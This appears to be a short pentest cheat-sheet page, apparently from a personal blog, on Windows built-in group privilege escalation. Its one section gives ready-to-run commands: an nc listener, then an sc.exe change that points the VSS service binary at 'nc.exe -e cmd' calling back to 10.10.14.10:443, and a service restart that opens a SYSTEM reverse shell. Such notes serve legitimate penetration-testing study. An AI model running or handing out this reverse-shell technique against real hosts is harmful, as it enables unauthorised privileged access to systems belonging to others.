 ```yaml
---
title: "Built-in Group"
date: 2024-7-24
tags: ["built-in group", "active driectory", "ad", "Windows", "privesc"]
---
```


---
#### Abuse #1. Modify Service Path

<div>

```bash
# Start a nc listener
rlwrap nc -lvnp 443
```

</div>

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```powershell
# Assumed nc.exe is uploaded
sc.exe config VSS binpath="C:\ProgramData\nc.exe -e cmd 10.10.14.10 443"
```

```powershell
# Stop service
sc.exe stop VSS
```

```powershell
# Start service
sc.exe start VSS
```

</div>

{{< /tabcontent >}}

<br>